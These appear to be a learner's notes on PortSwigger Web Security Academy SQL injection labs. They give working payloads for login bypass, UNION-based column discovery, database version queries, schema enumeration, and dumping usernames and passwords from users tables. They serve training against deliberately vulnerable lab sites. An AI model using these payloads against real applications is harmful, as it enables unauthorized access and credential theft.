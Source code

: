 ### sql injection

hint: internal server error on http route.  
 '+OR+1=1-- #will query all #SELECT \* FROM products WHERE catergory = '' or 1+1--' equivalent.
ex: https://0aa000d504428d79c0e803da00430076.web-security-academy.net/filter?category=%27+OR+1=1--

### SQL injection vulnerability allowing login bypass

Use burp suite to intercept and modify login.
modify username with parameter administrator'--

### SQL union injection

2 requirements:
How many columns are being returned from the original query?
Which columns returned from the original query are of a suitable data type to hold the results from the injected query?

Continue adding null values until the error disappears and the response includes additional content containing the null values.  
ex: /filter?category='+UNION+SELECT+NULL,NULL-- HTTP/1.1  
-NULL is a special keyword that matches any data type.
-add NULLs if 'internal server error'
ex: '+UNION+SELECT+NULL,NULL,NULL--

### Lab: SQL injection UNION attack, finding a column containing text

Use Burp Suite to intercept and modify the request that sets the product category filter.
Determine the number of columns that are being returned by the query. Verify that the query is returning three columns, using the following payload in the category parameter:
'+UNION+SELECT+NULL,NULL,NULL--
Try replacing each null with the random value provided by the lab, for example:
'+UNION+SELECT+'abcdef',NULL,NULL--
If an error occurs, move on to the next null and try that instead.

### SQL injection UNION attack, retrieving data from other tables

Find number of columns using NULL  
'+UNION+SELECT+NULL,NULL--  
Check columns for string values  
'+UNION+SELECT+'string','string2'--
Replace strings to search for username and password on table users
'+UNION+SELECT+username,+password+FROM+users--
right click - show response in browser, open new tab, paste.
get administrator password, and paste into login.

### SQL injection UNION attack, retrieving multiple values in a single column

intercept category, move to repeater  
in repeater find column size  
'+UNION+SELECT+NULL,'string'--  
locate string for username/password injection  
concat username and password into string starr is used to seperate values so you can find easily  
'+UNION+SELECT+NULL,username||'\*'||password+FROM+users--  
right click response show response in browser  
grab administrator password and login

### Lab: SQL injection attack, querying the database type and version on Oracle

Hint: There is a built-in table on Oracle called dual which you can use for this purpose. For example: UNION SELECT 'abc' FROM dual
ex: '+UNION+SELECT+NULL,NULL+FROM+dual--
check for string data types
'+UNION+SELECT+'string','string2'+FROM+dual--
Now look for version by using BANNER, NULL, and v$version from cheatsheet.
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--

### Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft

Hint: You can find some useful payloads on our SQL injection cheat sheet.
for this instead of using '--' at the end, it will be a hash #  
ex: '+UNION+SELECT+NULL#
find number of columns and check for strings
'+UNION+SELECT+'string2','string1'#
for microsoft @@version  
ex:'+UNION+SELECT+@@version,NULL#

### SQL injection attack, listing the database contents on non-Oracle databases

Hint: You can find some useful payloads on our SQL injection cheat sheet.  
proxy -> intercept -> repeater  
Non-oracle -- -> NULL NULL enumerate until columns found, then string search.  
Grab name of tables we want username/passwords table_name keyword information_schema.tables keyword  
ex: '+UNION+SELECT+table_name,NULL+FROM+information_schema.tables--  
Show response in browser -> ctrl+f 'users' save user custom name
search column_name and information.schema.columns Where table_name= usercustomName
'+UNION+SELECT+column_name,NULL+FROM+information_schema.columns+WHERE+table_name='users_zleagd'--
find name of username column and password column -> ex: password_ozeovi username_oiwhns
Then make UNION select with username, password, FROM, usertable
ex: '+UNION+SELECT+username_oiwhns,password_ozeovi+FROM+users_zleagd--
grab username/password for administrator
Login from Myaccount

### SQL injection attack, listing the database contents on Oracle

proxy-intercept-repeater - ORACLE (+FROM+dual) instead of --
enumerate nulls for columns '+UNION+SELECT+NULL,NULL+FROM+dual--
test strings - both are strings
Grab name of tables we want username/passwords table_name keyword all_tables keyword for ORACLE
ex: '+UNION+SELECT+table_name,NULL+FROM+all_tables--
get users table info - USERS_ICXPNX
search column_name and ORACLE: all_tab_columns using our username table to filter via WHERE clause
'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ICXPNX'--
Then make UNION select with username, password, FROM, usertable
PASSWORD_TYRFNT
USERNAME_AIPDKN
'+UNION+SELECT+USERNAME_AIPDKN,PASSWORD_TYRFNT+FROM+USERS_ICXPNX--
Log in using administrator and password.
